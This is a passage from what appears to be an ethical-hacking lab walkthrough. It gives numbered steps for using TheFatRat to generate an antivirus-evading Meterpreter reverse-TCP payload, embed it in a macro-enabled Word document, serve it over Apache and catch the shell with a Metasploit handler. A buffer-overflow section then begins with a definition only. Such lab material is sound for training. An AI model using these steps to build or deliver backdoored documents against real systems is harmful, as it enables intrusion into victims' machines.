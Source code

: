 TheFatRat is an exploitation tool that compiles malware with a popular payload that can then be executed on Windows, Android, and Mac OSes. The software offers an easy way to create backdoors and payloads that can bypass most anti-viruses.

Here, we will use TheFatRat to hack the Windows machine with a malicious office document.

1. Open the Parrot Security machine and open MATE terminal
2. Switch to root and navigate the the root folder
3. Type `fatrat` to launch fatrat
4. After fatrat verifies dependencies, press enter twice
5. In the fatrat menu, type `6` to choose `[06] Create Fud Backdoor 1000% with PwnWinds [Excelent]`
6. Type `3` in the new menu to choose `[3] Create exe file with apache + Powershell (FUD 100%)`
7. When asked, enter `10.10.10.13` as the LHOST IP
8. Next, enter `4444` as the LPORT
9. Type `payload` as the base name for output files
10. When asked to choose a payload, enter `3` to choose `[3] windows/meterpreter/reverse_tcp`
11. When it finishes, press enter to continue
12. This has generated a `payload.exe` file at `root/Fatrat_generated`
13. In the menu, press `9` to return to the menu
14. Type `7` to choose `[07] Create Backdoor For Office with Microsploit`
15. In the microsploit menu, enter `2` to choose `|2| The Microsoft Office Macro on Windows`
16. Set the LHOST IP as `10.10.10.13` and the LPORT as `4444`
17. When asked to choose a name, enter `BadDoc`
18. Type whatever you want for the message body
19. When asked to use a custom exe file backdoor, type `y` and set the path as `/root/FatRat_Generated/payload.exe`
20. Type `3` to choose `[3] windows/meterpreter/reverse_tcp` as the payload
21. When the results appear, press enter to continue
22. Open `/root/FatRat_Generated` to view the files
23. In a new terminal, switch to root and navigate to the root directory
24. Type `cp /root/Fatrat_Generated/BadDoc.docm /var/www/html/share` to copy the generated malicious document to the shared folder
25. Type `service apache2 start` to start the apache service
26. Type `msfconsole` to start metasploit
27. In metasploit, type `use exploit/multi/handler`
28. Type `set payload windows/meterpreter/reverse_tcp`
29. Type `set LHOST 10.10.10.13`
30. Type `set LPORT 4444`
31. Type `exploit` to begin
32. Switch to Windows and open a web browser, then navigate to `https://10.10.10.13/share`
33. Download BadDoc.docm and open it
34. Click `enable editing` in the word document
35. Click `enable content`
36. Switch back to the Parrot Security machine and observe the meterpreter shell session
36. Type `sysinfo` to view the details of the exploited system

## Task 6: Perform Buffer Overflow Attack to Gain Access to a Remote System
A buffer is an area of adjacent memory locations allocated to a program or application to handle its runtime data. Buffer overflow or overrun is a common vulnerability in applications or programs that accept more data than the allocated buffer. This vulnerability allows the application to exceed the buffer while writing data to the buffer and overwrite neighboring memory locations. Further, this vulnerability leads to erratic system behavior, system crash, memory access errors, etc. Attackers exploit a buffer overflow vulnerability to inject malicious code into the buffer to damage files, modify program data, access critical information, escalate privileges, gain shell access, etc.
